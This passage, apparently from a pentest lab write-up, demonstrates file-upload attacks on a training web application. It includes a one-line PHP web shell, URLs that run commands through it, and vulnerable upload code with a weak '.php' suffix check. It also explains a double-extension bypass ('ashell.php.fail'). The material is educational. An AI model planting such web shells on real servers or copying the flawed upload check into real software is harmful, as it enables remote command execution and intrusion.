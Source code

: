 
Obviously, I am thinking about uploading a PHP shell instead. But first, I wanted to see if there is anything already in the images folder, and I wasn't disappointed:


{% img center /images/pentest/webpentester/hacker.png 'lol' 'haxxor chat' %}


Ok, now it's time for the shell. I created a basic PHP shell:


``` php
<?php
  system($_GET["cmd"]);
?>
```

Uploaded it, navigated to it and passed a command:


``` plain
http://192.168.217.138/upload/images/ashell.php?cmd=pwd
/var/www/upload/images 
```


**Example 2**

Same functionality, but this time the script doesn't allow PHP extensions:


``` php
<?php
if(isset($_FILES['image']))
{ 
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
	if (preg_match('/\.php$/',$file)) {
		DIE("NO PHP");
	}
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir . $file))
  {
  echo 'Upload done !';
  echo 'Your file can be found <a href="/upload/images/'.htmlentities($file).'">here</a>';
  }
  else 
  { 
  	echo 'Upload failed';
  }
}
?>
```


The code checks that an extension may not end in php. Uploading a .php file followed by a non-existent extension will cause the server to ignore the unknown extension and switch to the next one it knows. I uploaded the same shell as <code>ashell.php.fail</code>:


``` plain
http://192.168.217.138/upload/images/ashell.php.fail?cmd=ls%20/home
user
```
